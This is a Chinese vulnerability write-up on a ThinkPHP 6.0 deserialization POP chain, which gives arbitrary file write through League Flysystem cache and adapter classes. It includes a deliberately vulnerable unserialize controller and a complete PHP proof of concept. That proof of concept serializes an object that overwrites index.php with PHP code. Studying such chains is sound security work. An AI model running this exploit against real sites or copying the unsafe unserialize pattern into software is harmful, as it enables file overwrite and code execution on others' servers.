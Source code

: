Thinkphp 6.0 任意文件写入pop链
==============================

一、漏洞简介
------------

需要知晓绝对路径

二、漏洞影响
------------

Thinkphp 6.0

三、复现过程
------------

### 环境搭建

ThinkPHP6.0.2

PHP7.2

    <?php
    namespace app\controller;
    use app\BaseController;

    class Index extends BaseController

        public function test(){
            echo base64_decode($_POST['payload']);
            $payload = unserialize(base64_decode($_POST['payload']));
        }
    }

### 漏洞分析

POP链：

    League\Flysystem\Cached\Storage\AbstractCache --> destruct()
    League\Flysystem\Cached\Storage\Adapter --> save()
    League\Flysystem\Adapter\Local --> write()
    vendor/league/flysystem-cached-adapter/src/Storage/AbstractCache.php

![](/Users/aresx/Documents/VulWiki/.resource/Thinkphp6.0任意文件写入pop链/media/rId26.jpg)

因AbstractCache类为抽象类，需找到其实现子类，且要有save()方法

成功找到：`vendor/league/flysystem-cached-adapter/src/Storage/Adapter.php`

![](/Users/aresx/Documents/VulWiki/.resource/Thinkphp6.0任意文件写入pop链/media/rId27.jpg)

\$contents决定文件写入内容，显然可向\$this-\>complete或\$this-\>expire写入具体内容即可

![](/Users/aresx/Documents/VulWiki/.resource/Thinkphp6.0任意文件写入pop链/media/rId28.jpg)

接下来需找到具有write()方法的类，`vendor/league/flysystem/src/Adapter/Local.php`中Local类符合条件

![](/Users/aresx/Documents/VulWiki/.resource/Thinkphp6.0任意文件写入pop链/media/rId29.jpg)

但`ensureDirectory()`对利用造成了影响，将对目录进行检测，因而造成必须使用绝对路径

![](/Users/aresx/Documents/VulWiki/.resource/Thinkphp6.0任意文件写入pop链/media/rId30.jpg)

### 漏洞复现

根据分析写出poc

> 该利用链较为鸡肋，要求必须知晓写入文件的绝对路径

    <?php
    namespace League\Flysystem\Cached\Storage;#AbstractCache Adapter
    use League\Flysystem\Adapter\Local;
    abstract class AbstractCache{
        protected $autosave = true;
        protected $cache = [];
        protected $complete = [];
        function __construct(){
            $this->autosave = false;
            $this->cache = ['test'];
            $this->complete = ["axin"=>"<?php phpinfo();?>"];
        }
    }

    class Adapter extends AbstractCache{
        protected $adapter;
        protected $file;
        protected $expire = null;

        function __construct(){
            parent::__construct();
            $this->adapter = new Local();
            $this->file = "var/www/html/index.php";
            #$this->file = "://WampServer/www/tp/tp6.0.1/public/index.php"; #winsows下目录
            $this->expire = 123;
        }
    }

    namespace League\Flysystem\Adapter;
    abstract class AbstractAdapter{
        protected $pathPrefix;
        function __construct(){
            $this->pathPrefix = "/";
            #$this->pathPrefix = "D";  #windows下目录
        }
    }
    class Local extends AbstractAdapter{

    }
    use League\Flysystem\Cached\Storage\Adapter;
    echo base64_encode(serialize(new Adapter()));

![](/Users/aresx/Documents/VulWiki/.resource/Thinkphp6.0任意文件写入pop链/media/rId32.jpg)

效果演示：自己构造一个反序列化输入点，发送请求(页面的输出是我自己方便调试打印的)

![](/Users/aresx/Documents/VulWiki/.resource/Thinkphp6.0任意文件写入pop链/media/rId33.png)

文件成功写入：

![](/Users/aresx/Documents/VulWiki/.resource/Thinkphp6.0任意文件写入pop链/media/rId34.png)

参考链接
--------

> http://pines404.online/2020/01/20/%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1/ThinkPHP/ThinkPHP6.0%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E9%93%BE(%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E5%86%99%E5%85%A5)%E5%88%86%E6%9E%90/
>
> https://www.anquanke.com/post/id/194269
